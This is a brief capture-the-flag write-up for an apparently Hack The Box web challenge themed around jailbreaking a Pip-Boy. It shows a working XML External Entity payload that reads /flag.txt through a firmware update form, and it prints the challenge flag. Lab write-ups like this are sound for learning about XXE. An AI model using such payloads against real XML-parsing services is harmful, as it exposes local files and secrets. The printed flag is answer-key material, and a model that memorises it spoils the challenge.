


# Jailbreak

**Creator:** makelaris

**Description:** The crew secures an experimental Pip-Boy from a black market merchant, recognizing its potential to unlock the heavily guarded bunker of Vault 79. Back at their hideout, the hackers and engineers collaborate to jailbreak the device, working meticulously to bypass its sophisticated biometric locks. Using custom firmware and a series of precise modifications, can you bring the device to full operational status in order to pair it with the vault door's access port. The flag is located in /flag.txt

**Category:** Web

**Difficulty:** very easy

## Solution 

Upon examining the site, I found the Firmware Update page. 


With some help from chatGPT, it was suggested that this could be an XML External Entity (XXE) injection. After a few tries, I was able to get the flag `HTB{b1om3tric_l0cks_4nd_fl1cker1ng_l1ghts_7e9b90654a5e29c042c68e7b21be7c79}` using the following XML:

```XML
<!DOCTYPE root [
<!ENTITY xxe SYSTEM "file:///flag.txt">
]>
<FirmwareUpdateConfig>
  <Firmware>
    <Version>&xxe;</Version>
    <ReleaseDate>2077-10-21</ReleaseDate>
    <Description>&xxe;</Description>
    <Checksum type="SHA-256">9b74c9897bac770ffc029102a200c5de</Checksum>
  </Firmware>
  <Components>
    <Component name="navigation">
      <Version>3.7.2</Version>
      <Description>Updated GPS algorithms for improved wasteland navigation.</Description>
      <Checksum type="SHA-256">e4d909c290d0fb1ca068ffaddf22cbd0</Checksum>
    </Component>
    <Component name="communication">
      <Version>4.5.1</Version>
      <Description>Enhanced encryption for secure communication channels.</Description>
      <Checksum type="SHA-256">88d862aeb067278155c67a6d6c0f3729</Checksum>
    </Component>
    <Component name="biometric_security">
      <Version>2.0.5</Version>
      <Description>Introduces facial recognition and fingerprint scanning for access control.</Description>
      <Checksum type="SHA-256">abcdef1234567890abcdef1234567890</Checksum>
    </Component>
  </Components>
  <UpdateURL>https://satellite-updates.hackthebox.org/firmware/1.33.7/download</UpdateURL>
</FirmwareUpdateConfig>
```

